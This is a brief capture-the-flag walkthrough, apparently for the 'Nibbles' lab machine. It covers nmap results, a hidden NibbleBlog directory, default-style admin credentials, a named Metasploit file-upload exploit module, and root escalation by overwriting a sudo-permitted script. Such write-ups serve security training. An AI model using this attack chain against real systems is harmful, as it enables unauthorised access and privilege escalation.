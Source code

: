 nmap result:

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache/2.4.18 (Ubuntu)
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

Looking at the cource code of the root directory web page:

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

The username is `admin`, password is `nibbles`.

```
http://10.10.10.75/nibbleblog/admin.php
```

Use metasploit module to gain shell:


```
exploit/multi/http/nibbleblog_file_upload
```

`sudo -l`

```
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

`unzip personal.zip` and write cat flag command to monitor.sh

```
echo "cat /root/root.txt" > monitor.sh
```

Run `sudo /home/nibbler/personal/stuff/monitor.sh` to get root flag.

